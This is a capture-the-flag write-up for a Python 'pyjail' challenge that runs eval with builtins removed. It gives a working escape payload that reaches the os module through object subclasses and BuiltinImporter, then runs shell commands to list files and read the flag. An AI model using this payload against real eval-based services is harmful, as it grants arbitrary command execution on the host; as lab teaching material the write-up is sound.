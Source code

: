 # BabyJail
 
## Description:
Just a normal pyjail without builtins!

## Source code:
```
#!/usr/local/bin/python3
print(eval(input('> '), {"__builtins__": {}}, {}))
```

## Challenge:
This program is a basic "pyjail" challenge where the goal is to break out of the restricted environment and run commands on the host system. The program runs the users commands with the `eval()` function in python, however there are a few tricks.

`{"__builtins__": {}}` - The second argument to `eval()` is the globals dictionary. By passing `{"__builtins__": {}}`, the code tries to restrict access to Python's built-in functions and modules like `open`, `exec`, or `os`. Referencing these will result in a `NameError` as the functions are not defined.

`{}` - The third argument to `eval()` is the locals dictionary. By passing an empty dictionary, the code prevents any local variables or functions from being accessible within the evaluated expression, once again causing a `NameError`.

Despite the restrictions, this sandbox can often be bypassed because `eval()` still allows Python expressions, which may provide access to restricted functionality.

## Solution:

I was able to access hidden attributes by using this python expression to list classes in use in the python environment:
`().__class__.__base__.__subclasses__()`

This returned a large list of python classes, which I tried to filter down to classes with reference to the the `os` module:
`[cls for cls in ().__class__.__base__.__subclasses__() if 'os' in str(cls)]`

However access to the `str` function is not possible, so I copied the output into a file and manually looked for functions of interest. Grepping for `os` returned me `<class 'os._wrap_close'>` at index 155, however I was unable to find any functions I could use to spawn a shell or read a file using this class.

It seemed here that there were a large number of classes that could work as an exploit to this system, and eventually I stumbled across `<class '_frozen_importlib.BuiltinImporter'>` which provided access to the `os` module and the `system` function, allowing me to execute commands. Finally I just had to find the location of the `BuiltinImporter` in the classes list, which I did using list comprehension to search for the class in the output of `().__class__.__base__.__subclasses__()`

```┌──(kali㉿kali)-[~/Downloads]
└─$ nc 172.31.3.2 8002
> [x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('os').system("ls")
bin
boot
dev
etc
flag_LwAyYvKd
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
0
```
Then finally it was just a case of changing the command to print the contents of the flag file for the final payload of:
`[x for x in  [].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('os').system("cat flag_LwAyYvKd")`

